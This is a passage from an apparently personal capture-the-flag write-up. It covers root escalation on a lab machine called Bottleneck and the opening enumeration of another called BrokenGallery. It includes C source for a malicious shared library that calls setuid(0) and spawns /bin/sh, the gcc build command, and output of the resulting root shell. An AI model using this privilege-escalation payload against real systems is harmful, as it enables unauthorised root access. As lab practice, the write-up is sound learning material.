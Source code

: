 I have told you that this is hard machine, since we need to check each code we found, so in that case the code should get arg, one or more then one, and it run dlsym which take the arg and run it with test_this, this is mean we have insert path for `so` file that contain function called "test_this" file.
So, in our case, dlopen is used to open the shared object file "<any_name>.so" with lazy binding (RTLD_LAZY). Then, dlsym is used to obtain the address of the function named "test_this" within the shared object, since that binary is set with suid of 0, this is mean we can binding root shell with that.
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
void test_this()
{
setuid(0); setgid(0); system("/bin/sh");
```
That code should be compiled with the following:
```
gcc -fPIC -shared test_this.c -o test_this.so
```
Again, the information on that one I found by google search.

10. Root Escalation: so now, transfer that file to the target and change it's mode to execute, and then run the following to gain shell as root.
```
bytevsbyte@bottleneck:/usr/test$ ./testlib /tmp/tmp/test_this.so
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),1000(bytevsbyte),1001(tester)
# whoami
root
#
```

### BrokenGallery

1. Enumeration: run port scan like `rustscan` and `nmap` found that ports 22 and 80 are the only opened services.  `nmap` found that ssh is on version 7.2p2 which vuln for user enumeration (this is from experiance, but you can also run `searchsploit` and find this details). Since it's all we have we going to enumerate the web.

2. Web Enumeration: run webenum against the web found README.md file that contain, what look like, hexa values:
```
0xFF, 0xD8, 0xFF, 0xE0, 0x00, 0x10, 0x4A, 0x46, 0x49, 0x46, 0x00, 0x01, 0x01, 0x00, 0x00, 0x01,
0x00, 0x01, 0x00, 0x00, 0xFF, 0xFE, 0x00, 0x1F, 0x43, 0x6F, 0x6D, 0x70, 0x72, 0x65, 0x73, 0x73,
0x65, 0x64, 0x20, 0x62, 0x79, 0x20, 0x6A, 0x70, 0x65, 0x67, 0x2D, 0x72, 0x65, 0x63, 0x6F, 0x6D,
0x70, 0x72, 0x65, 0x73, 0x73, 0xFF, 0xDB, 0x00, 0x84, 0x00, 0x04, 0x04, 0x04, 0x04, 0x04, 0x04,
...
```
So, we can download it using `wget` and then running bash tools for convert it out, and found this is some compress image file, type of jpeg file.
```
cat README.md|sed 's/0x//g'|sed 's/, //g'|xxd -r -p
����JFIF��Compressed by jpeg-recompress���
```
Redirect the output to file with the following:
```
cat README.md|sed 's/0x//g'|sed 's/, //g'|xxd -r -p > image.jpeg
```
Then open that file using some photos viewer, we can see the following note.
```
Hello Bob,
The application is BROKEN ! the whole infrastructure is BROKEN !!!!
I am leaving for my summer vacation, I hope you get it fix soon ...
Cheers.
```